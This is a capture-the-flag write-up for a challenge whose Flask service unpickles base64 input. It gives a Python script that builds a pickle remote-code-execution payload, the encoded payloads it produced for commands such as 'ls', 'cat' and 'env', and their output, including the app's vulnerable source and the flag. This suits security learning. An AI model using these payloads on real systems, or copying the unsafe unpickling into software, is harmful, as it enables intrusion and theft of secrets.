





# Write-ups for TCTT2023/PWN/04

## Flag pattern

`CTT23{xxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxx}`

## Challenge Files

_No file provided_

## Solution

1. First, let observe the website.

   - Input: `aaaa`

   

   - Input: `aaa`

   

   - Input: `bcsdhbcsdhvfsknv`

   

   - Input: `YQ==`

   

From these error, we know that the input must be `decoded from base64` and `unserialized with pickle`.

2. To craft payload, I wrote a [python script](./write-ups/payload.py)

```python
import pickle
import base64


class RCE:
    def __reduce__(self):
        import subprocess
        return (subprocess.check_output, (['/bin/bash', '-c', 'ls -la'],))


if __name__ == '__main__':
    pickled = pickle.dumps(RCE())
    print(base64.b64encode(pickled).decode('ASCII'))
```

And the result it

```
gASVQQAAAAAAAACMCnN1YnByb2Nlc3OUjAxjaGVja19vdXRwdXSUk5RdlCiMCS9iaW4vYmFzaJSMAi1jlIwGbHMgLWxhlGWFlFKULg==
```

After submit to website, we got

```
total 32
drwxr-xr-x 1 root root 4096 Sep 16 15:05 .
drwxr-xr-x 1 root root 4096 Sep 16 07:59 ..
-rw-r--r-- 1 root root  528 Aug  8 05:17 app.py
-rw-r--r-- 1 root root   13 Aug  8 04:57 requirements.txt
drwxr-xr-x 1 root root 4096 Aug  8 04:50 templates
```

3. Read the `app.py` by changing `['/bin/bash', '-c', 'ls -la']` to `['/bin/cat', './app.py']`

```
gASVPQAAAAAAAACMCnN1YnByb2Nlc3OUjAxjaGVja19vdXRwdXSUk5RdlCiMCC9iaW4vY2F0lIwILi9hcHAucHmUZYWUUpQu
```

```
#! /usr/bin/python
from flask import Flask, render_template, request
import base64
import pickle

app = Flask(__name__)
@app.route("/")
def my_form():
    return render_template("home.html")

@app.route("/", methods=["POST"])
def my_form_post():
    try:
        data = base64.urlsafe_b64decode(request.form["text"])
        output = pickle.loads(data)
    except Exception as e:
        output = e
        return render_template("home.html", code=output)

if __name__ == "__main__":
    app.run(host="0.0.0.0",port=1080)
```

There is nothing interesting in this file. So let go out of this directory.

4. changing `['/bin/bash', '-c', 'ls -la']` to `['/bin/bash', '-c', 'ls -la ../']`

```
gASVRQAAAAAAAACMCnN1YnByb2Nlc3OUjAxjaGVja19vdXRwdXSUk5RdlCiMCS9iaW4vYmFzaJSMAi1jlIwKbHMgLWxhIC4uL5RlhZRSlC4=
```

```
total 84
drwxr-xr-x   1 root root 4096 Sep 16 07:59 .
drwxr-xr-x   1 root root 4096 Sep 16 07:59 ..
-rwxr-xr-x   1 root root    0 Sep 16 07:59 .dockerenv
drwxr-xr-x   1 root root 4096 Sep 16 15:05 app
lrwxrwxrwx   1 root root    7 Aug 16 02:02 bin -> usr/bin
drwxr-xr-x   2 root root 4096 Apr 18  2022 boot
drwxr-xr-x   5 root root  360 Sep 16 07:59 dev
drwxr-xr-x   1 root root 4096 Sep 16 12:35 etc
drwxr-xr-x   1 root root 4096 Sep 16 08:26 home
lrwxrwxrwx   1 root root    7 Aug 16 02:02 lib -> usr/lib
lrwxrwxrwx   1 root root    9 Aug 16 02:02 lib32 -> usr/lib32
lrwxrwxrwx   1 root root    9 Aug 16 02:02 lib64 -> usr/lib64
lrwxrwxrwx   1 root root   10 Aug 16 02:02 libx32 -> usr/libx32
drwxr-xr-x   2 root root 4096 Aug 16 02:03 media
drwxr-xr-x   2 root root 4096 Aug 16 02:03 mnt
drwxr-xr-x   2 root root 4096 Aug 16 02:03 opt
dr-xr-xr-x 580 root root    0 Sep 16 07:59 proc
drwx------   1 root root 4096 Sep 16 12:35 root
drwxr-xr-x   1 root root 4096 Sep 16 08:44 run
lrwxrwxrwx   1 root root    8 Aug 16 02:02 sbin -> usr/sbin
drwxr-xr-x   2 root root 4096 Aug 16 02:03 srv
-rwxr-xr-x   1 root root  248 Aug 19 17:33 start.sh
dr-xr-xr-x  13 root root    0 Sep 16 07:59 sys
drwxrwxrwt   1 root root 4096 Sep 16 13:30 tmp
drwxr-xr-x   1 root root 4096 Aug 16 02:03 usr
drwxr-xr-x   1 root root 4096 Aug 16 02:06 var
```

`start.sh` look very interesting. Let read it.

5. changing `['/bin/bash', '-c', 'ls -la']` to `['/bin/cat', '../start.sh']`

```
gASVQAAAAAAAAACMCnN1YnByb2Nlc3OUjAxjaGVja19vdXRwdXSUk5RdlCiMCC9iaW4vY2F0lIwLLi4vc3RhcnQuc2iUZYWUUpQu
```

```
#!/bin/bash
#sed -i "s/\\[\\[RANDOM_SECRET\\]\\]/$RANDOM_SECRET/g" /tmp/flag.txt
#randomname=`date +%s | sha256sum | base64 | head -c 10 ; echo`&& mv /tmp/flag.txt /tmp/flag_$randomname.txt
export flag=$RANDOM_SECRET
python3 app.py
tail -F /dev/null
```

From `export flag=$RANDOM_SECRET`, we know that the flag is in `flag` environment variable.

6. changing `['/bin/bash', '-c', 'ls -la']` to `['/bin/bash', '-c', 'env']`

```
gASVPgAAAAAAAACMCnN1YnByb2Nlc3OUjAxjaGVja19vdXRwdXSUk5RdlCiMCS9iaW4vYmFzaJSMAi1jlIwDZW52lGWFlFKULg==
```



```
HOSTNAME=e404496bc97a
PWD=/app
_=/usr/bin/env
flag=CTT23{Bas364_Rc3}
HOME=/root
WERKZEUG_SERVER_FD=3
TERM=xterm
SHLVL=1
RANDOM_SECRET=CTT23{Bas364_Rc3}
LC_CTYPE=C.UTF-8
PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin
```

7. BOOM!, the flag is `CTT23{Bas364_Rc3}`
